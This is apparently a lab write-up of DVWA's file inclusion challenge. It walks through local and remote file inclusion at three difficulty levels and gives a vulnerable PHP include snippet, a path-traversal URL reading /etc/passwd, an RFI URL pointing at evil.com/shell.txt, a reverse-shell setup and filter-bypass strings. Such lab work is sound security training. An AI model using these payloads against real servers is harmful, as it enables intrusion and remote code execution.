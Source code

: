 # File Inclusion

File inclusion is a type of web vulnerability that allows an attacker to include files (local or remote) into a web application. This often happens due to insecure handling of user input in functions that include files, like PHP's `include()`, `require()`, `include_once()`, or `require_once()`.

There are two main types, Local File Inclusion (LFI) & Remote File Inclusion (RFI):

## Local File Inclusion (LFI)

LFI occurs when a web application allows users to include files that are already present on the server (i.e., local files).

#### For Example
```bash
<?php
    $page = $_GET['page'];
    include($page);
?>
```

An attacker can use `http://example.com/?page=../../../../etc/passwd` to exploit this. This will cause:
- Disclosure of sensitive server files.
- Code execution if log files or upload directories are included and contain executable code.
- Path traversal attacks.
<br><br>

## Remote File Inclusion (RFI)

RFI occurs when a web application includes files from a remote server due to the lack of input validation. With the same example code, attacker can use `http://example.com/?page=http://evil.com/shell.txt` to exploit, which lead to:
-	Remote Code Execution
-	Full System Compromise
-	Web Shell Access
<br><br>
---

## Low Difficulty

Here we have 3 php file included on the web application and able to read them respectively. The file 1 has the url of `?page=file1.php` and file 2 has the url of `?page=file2.php` and so on:

<img src="./Screenshots/Screenshot1.png" width=80% height=80%>

<img src="./Screenshots/Screenshot2.png" width=80% height=80%>

<img src="./Screenshots/Screenshot3.png" width=80% height=80%>

<img src="./Screenshots/Screenshot4.png" width=80% height=80%>

<img src="./Screenshots/Screenshot5.png" width=80% height=80%><br><br>

What if we try to insert a `file4.php`?

<img src="./Screenshots/Screenshot6.png" width=80% height=80%><br><br>

We can see that there is a hidden fourth php file and this is how a file inclusion vulnerability work.
<br><br>

### Searching Hidden Quotes

We can try something else. There is an objective of reading all the quotes from `../hackable/flags/fi.php`:

<img src="./Screenshots/Screenshot7.png" width=80% height=80%><br><br>

We can see that after include the directory, there is nothing showing up: 

<img src="./Screenshots/Screenshot8.png" width=80% height=80%><br><br>

Let’s try to add one more `../` to navigate 2 directories down.

<img src="./Screenshots/Screenshot9.png" width=80% height=80%><br><br>

Now we are able to find the hidden quotes.
<br><br>

### RFI

For RFI, we can demonstrate this with the use of reverse shell. Here I use the reverse shell php from the webshells directory, and set the IP as local host with port 1337:

<img src="./Screenshots/Screenshot10.png" width=80% height=80%>

<img src="./Screenshots/Screenshot11.png" width=80% height=80%><br><br>

Now we host a http server with the php file, then we set a listener on port 1337 for establishing reverse shell.

<img src="./Screenshots/Screenshot12.png" width=80% height=80%>

<img src="./Screenshots/Screenshot13.png" width=80% height=80%>

<img src="./Screenshots/Screenshot14.png" width=80% height=80%><br><br>

After including the http server URL with the shell.php file path into the browser's URL, we have established a reverse shell connection:

<img src="./Screenshots/Screenshot15.png" width=80% height=80%>

<img src="./Screenshots/Screenshot16.png" width=80% height=80%><br><br>

If this was a real server and somebody had this vulnerability on their actual server, we would now have the full access of the server as a low privilege user, and can further enumerate the server as well as escalate to privilege user
<br><br>

---

## Medium Difficulty

### Source Code

If we examine the source code of medium difficulty, we can see that the user input will be validated by stripping the characters like `http://`, `../`, `..\\` and more:

<img src="./Screenshots/Screenshot17.png" width=80% height=80%><br><br>

### Attempt

By using the previous method `../../`, it is failed to open stream:

<img src="./Screenshots/Screenshot18.png" width=80% height=80%><br><br>

### Solution

Since the code is designed to strip `../`, we can bypass this by adding another `../` together to make the characters into `….//….//`. This way, the code will strip the `../` inside `..//..//`, when combining together they will become `../../`:

<img src="./Screenshots/Screenshot19.png" width=80% height=80%>

<img src="./Screenshots/Screenshot20.png" width=80% height=80%><br><br>

We can now see the hidden quotes.
<br><br>

### RFI

Let's try the previous method from Low difficulty:

<img src="./Screenshots/Screenshot21.png" width=80% height=80%>

<img src="./Screenshots/Screenshot22.png" width=80% height=80%><br><br>

We can see that there is no reverse tcp connection established since the input is being validated by stripping the `http://` and `https://` characters. 
<br><br>

#### Solution

Using the same concept, we can easily bypass this by modifying the input into `Http` or `httphttp://`. Now the reverse tcp connection has been established for RFI:

<img src="./Screenshots/Screenshot23.png" width=80% height=80%>

<img src="./Screenshots/Screenshot24.png" width=80% height=80%>

<img src="./Screenshots/Screenshot25.png" width=80% height=80%>

<img src="./Screenshots/Screenshot26.png" width=80% height=80%><br><br>

---

## High Difficulty

### Source Code

The high difficulty further improve the validation by setting the name of the file should begin with the word `file` and the file should be `include.php`:

<img src="./Screenshots/Screenshot27.png" width=80% height=80%><br><br>

Using the previous method, it will show the file not found error. 

<img src="./Screenshots/Screenshot28.png" width=80% height=80%><br><br>

### Solution

To bypass this, we can use the file wrapper with triple slash method. Just like when we open the `README.md` file of DVWA as the screenshot below, it starts with `file:///`:

<img src="./Screenshots/Screenshot29.png" width=80% height=80%><br><br>

Similarly, if we use this file wrapper method, we will be able to see the hidden quotes now:

<img src="./Screenshots/Screenshot30.png" width=80% height=80%><br><br>

---

## Conclusion

This challenge highlights the danger of insecure file inclusion handling in web applications, which can lead to **information disclosure**, **remote code execution**, and full **system compromise**.

At **Low** difficulty, we successfully included hidden files and demonstrated both **Local File Inclusion (LFI)** and **Remote File Inclusion (RFI)** using a simple reverse shell technique.

At **Medium** difficulty, we bypassed basic blacklist filters (e.g., blocking `../` or `http://`) using clever encoding and character tricks.

At **High** difficulty, even with filename validation logic in place, we circumvented restrictions by abusing PHP's `file://` wrapper, allowing us to read local resources again.

This challenge illustrates how **input sanitization alone is insufficient**, and how attackers can chain seemingly harmless features into dangerous exploits.
<br><br>

### Skills Applied:

- Understanding of LFI and RFI vulnerabilities
- Exploiting `include()` logic in PHP-based apps
- Directory traversal and path manipulation
- Blacklist bypass techniques (e.g., `..//..//`, `httphttp://`)
- File wrapper abuse (`file:///`) to bypass filename checks
